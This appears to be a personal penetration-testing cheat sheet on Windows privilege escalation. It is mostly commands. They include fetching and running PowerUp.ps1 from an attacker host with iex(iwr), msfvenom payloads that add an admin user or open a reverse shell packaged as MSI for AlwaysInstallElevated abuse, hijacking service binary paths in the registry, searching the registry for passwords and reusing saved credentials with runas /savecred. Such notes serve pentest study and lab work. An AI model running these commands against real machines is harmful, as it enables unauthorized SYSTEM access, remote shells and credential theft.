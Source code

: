 i## RunasCs.exe
Windows script to run specific processes under a different user account
```powershell
PS > .\RunasCs.exe $Username $Password $Command
```
Command can be like `msfvenom reverse shell`
# Processes
Check running processes, could hint at possible VM machine, prompting [[VM Escape]].
# Services
## Service
- Check all services with `sc query`
```cmd
> sc.exe query state=all
```
- Query configuration of a service
```powershell
PS > sc qc <service>
```
- Check access
## Access Check 
- Check `<user>` access to a particular  `service`
```powershell
PS > accesschk /accepteula -uwcqv <user> <service>
```
## Service Permissions
# PowerUp.ps1
```powershell
PS > iex (iwr -usebasicparsing http://<IP>:<PORT>/PowerUp.ps1)
PS > Invoke-AllChecks
```
# Dangerous Settings
## #AlwaysInstallElevated 
Allows to install/run executable with elevated privileges. 
- Create super-user
```shell-session
$ msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format
$ msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi 
```
>**!! NOTE:** Using the msiexec the uac wont be prompted
- Create elevated reverse-shell
```shell-session
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi -o reverse.msi
```
Install it on the vulnerable system:
```powershell
PS > msiexec /quiet /qn /i C:\path\to\executable.msi
```
## #service_change_config 
If the service runs with `SYSTEM` privileges and we can change its config, change the binary path of the service to our malicious reverse shell and restart it.
```powershell
> sc config <service> binpath= "\"C:\Path\to\rev-shell""
> net start <service>
```
## #unquoted-service-path 
If the service runs with `SYSTEM` privileges and its path is unquoted, check folder permissions to create a script at the vulnerable path.
### Tools
1. [[AccessChk]]
2. [[ICACLS]]
## Registry Permission
If the registry permissions allow to modify, change service path from here.
```powershell
> accesschk /accepteula -uvwqk HKLM\path\to\service
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS

> reg add HKLM\path\to\service /v ImagePath /t REG_EXPAND_SZ /d C:\path\to\shell.exe /f
```
## Password in Registry
The registry can be searched for keys and values that contain the word "password"
```powershell
PS > reg query HKLM /f password /t REG_SZ /s
```
## Saved Credentials
List any saved credentials and use them to run script:
```powershell
PS > cmdkey /list
PS > runas /savecred /user:<user> C:\path\to\script
```